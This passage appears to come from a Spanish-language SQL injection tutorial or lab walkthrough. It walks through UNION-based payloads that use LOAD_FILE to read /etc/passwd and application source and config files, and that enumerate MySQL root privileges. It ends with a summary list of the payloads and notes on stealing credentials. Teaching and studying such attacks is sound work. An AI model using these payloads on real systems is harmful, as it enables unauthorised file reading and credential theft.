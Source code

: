### 3.2. Leer el archivo fuente `search.php`

```sql
' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
```

**Explicación:**

Este archivo es la propia aplicación vulnerable. Puede revelar:

- Cómo se construye la query SQL.
    
- Si hay includes/requires a otros archivos.
    

---

### 3.3. Leer `config.php` para obtener credenciales

```sql
' UNION SELECT 1, LOAD_FILE("/var/www/html/config.php"), 3, 4-- -
```

**Explicación:**

Este archivo suele contener las **credenciales de conexión a MySQL**, como:

```php
$db_user = "root";
$db_pass = "toor123";
```

Esto te permite conectarte directamente a la base de datos desde consola o herramientas como `sqlmap`.

## Resumen de payloads usados

```sql
1. ' UNION SELECT 1,2,3,4-- -
2. ' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
3. ' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
4. ' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
5. ' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
6. ' UNION SELECT 1, LOAD_FILE("/var/www/html/config.php"), 3, 4-- -
```


---

## Conclusión

Este tipo de explotación SQLi permite:

- Confirmar la vulnerabilidad.
    
- Enumerar privilegios y configuraciones internas.
    
- Robar archivos del sistema.
    
- Escalar a control completo de la base de datos.
    

Una vez que obtienes credenciales, puedes avanzar hacia una **conexión directa**, pivotar o buscar vulnerabilidades adicionales.

---